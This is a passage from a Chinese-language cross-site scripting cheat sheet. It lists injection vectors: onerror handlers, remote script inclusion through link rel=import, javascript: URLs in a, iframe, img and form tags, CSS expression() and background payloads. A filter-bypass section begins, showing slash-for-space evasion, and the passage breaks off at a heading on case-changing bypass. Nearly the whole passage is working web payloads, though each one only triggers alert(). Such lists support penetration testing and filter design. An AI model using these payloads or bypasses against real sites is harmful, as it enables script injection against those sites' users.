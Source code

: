     <isindex type=image src=1 onerror=alert("xss")>//仅限于IE


### 利用link远程包含js文件

**PS：在无CSP的情况下才可以**

    <link rel=import href="http://127.0.0.1/1.js">


### javascript伪协议

`<a>`标签

    <a href="javascript:alert(`xss`);">xss</a>


`<iframe>`标签

    <iframe src=javascript:alert('xss');></iframe>


`<img>`标签

    <img src=javascript:alert('xss')>//IE7以下


`<form>`标签

    <form action="Javascript:alert(1)"><input type=submit>


### 其它

expression属性

    <img style="xss:expression(alert('xss''))"> // IE7以下
    <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下


background属性

    <table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效


有过滤的情况下
=======

过滤空格
----

用`/`代替空格

<img/src\="x"/onerror\=alert("xss");\>

过滤关键字
-----

### 大小写绕过
